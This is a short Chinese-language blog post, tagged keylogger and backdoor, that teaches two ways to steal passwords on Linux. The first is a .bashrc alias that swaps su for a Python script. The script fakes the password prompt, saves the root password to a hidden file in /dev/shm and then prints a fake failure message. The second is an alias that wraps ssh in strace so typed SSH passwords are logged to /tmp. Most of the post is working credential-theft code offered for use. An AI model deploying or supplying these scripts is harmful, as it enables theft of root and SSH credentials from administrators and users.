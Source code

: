 ```yaml
---
layout:     post
title:      "Keyboard Logger On Linux - Part 1"
subtitle:   "Serial"
date:       2016-12-23
author:     "Urahara"
categories: [Keyboard Logger，Backdoor]

---
```


### alias su keylogger

在一个低权限用户目录下的.bashrc添加一句alias su='/usr/root.py'，低权限用户su root后成功记录密码，但使用这种方法后管理员无法正常su切换至root用户下，所以比较容易被管理员发现。密码记录路径请看脚本。 

```python
#!/usr/bin/python
# -*- coding: cp936 -*-

import os, sys, getpass, time

current_time = time.strftime("%Y-%m-%d %H:%M")
logfile="/dev/shm/.su.log"              //密码获取后记录在这里
#CentOS                 
#fail_str = "su: incorrect password"
#Ubuntu              
#fail_str = "su: Authentication failure"
#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
fail_str = "su: incorrect password"
try:
	passwd = getpass.getpass(prompt='Password: ');
	file=open(logfile,'a')
	file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	file.write('n')
	file.close()
except:
	pass
time.sleep(1)
print fail_str                               //打印切换root失败提示
```

### alias ssh keylogger

同样编辑当前用户下的.bashrc文件,添加以下内容，然后使用source .bashrc 命令使配置生效，当ssh的时候,就会在tmp下面生成记录

```basic
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

